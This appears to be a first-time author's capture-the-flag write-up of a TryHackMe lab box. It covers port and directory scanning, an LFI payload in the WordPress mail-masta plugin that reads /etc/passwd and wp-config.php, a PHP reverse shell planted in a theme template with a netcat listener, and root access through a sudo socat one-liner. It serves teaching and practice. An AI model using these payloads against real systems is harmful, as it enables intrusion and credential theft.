 # Write-up-TryHackMe-All-in-One

# 1. Port Scanning
👁️ Using nmap:
```python
nmap -sC -sV -oN result 10.10.49.154
````
Result:
```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
````
# 2. FTP Enumeration
Anonymous login is allowed:
```python
ftp 10.10.49.154
````
However, no useful files were found.
# 3. Directory Enumeration (Gobuster)
```python
gobuster dir -u http://10.10.49.154 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
````
Interesting findings:
```python
/wordpress (301)
/index.html (200)
````
Re-scan on /wordpress:
```python
gobuster dir -u http://10.10.49.154/wordpress -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
````
Key files discovered:
```python
wp-login.php
wp-config.php
wp-mail.php (403)
xmlrpc.php, wp-cron.php, etc
````
# 4. LFI Exploitation via mail-masta Plugin
Researching leads to a known vulnerability:
```python
https://www.exploit-db.com/exploits/40290
````
Local File Inclusion (LFI) test:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
````
To read sensitive files like wp-config.php, we used Base64 encoding:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
````
Decoded Base64 output reveals:
```python
DB_USER: elyana  
DB_PASSWORD: ********
````
# 5. WordPress Login and Shell Upload
1 Login to /wp-login.php as user elyana

2 Navigate to Appearance > Theme Editor > 404.php

3 Upload a PHP reverse shell into the 404 template

Listener setup:
```python
nc -lvnp 4444
````
Trigger reverse shell:
```python
http://10.10.49.154/wordpress/wp-content/themes/twentytwenty/404.php
````
#  Privilege Escalation
We inspect config files:
```python
cat /etc/mysql/conf.d
````
Found additional credentials:
```python
user: elyana
password: ********
````
SSH into the machine:
```python
ssh elyana@10.10.49.154
````
Retrieve the user flag:
```python
cat user.txt
````
# Root Privileges via socat
Check sudo rights:
```python
sudo -l
````
Output:
```python
(ALL) NOPASSWD: /usr/bin/socat
````

From GTFOBins:
```python
https://gtfobins.github.io/gtfobins/socat/
````
```python
sudo socat stdin exec:/bin/sh
````
Now root:
```python
whoami
root
cat /root/root.txt
````
 # <b>This was my first ever write-up, and I truly hope it was helpful to someone out there.  
Thanks for reading, and happy hacking!</b>

